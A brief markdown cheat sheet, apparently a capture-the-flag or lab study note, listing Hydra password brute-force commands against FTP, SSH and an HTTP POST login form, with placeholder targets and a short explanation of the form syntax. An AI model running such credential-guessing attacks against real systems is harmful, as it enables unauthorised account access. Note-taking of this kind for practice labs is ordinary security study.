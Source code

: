 # Hydra

hydra -l user -P passlist.txt ftp://MACHINE_IP

hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh

hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
- "/:XXXXX:F=YYYYY"
- XXXXX= post request with username e login
- YYYYY= word when request is failed

hydra -l lin -P locks.txt -u ssh://<box ip here>


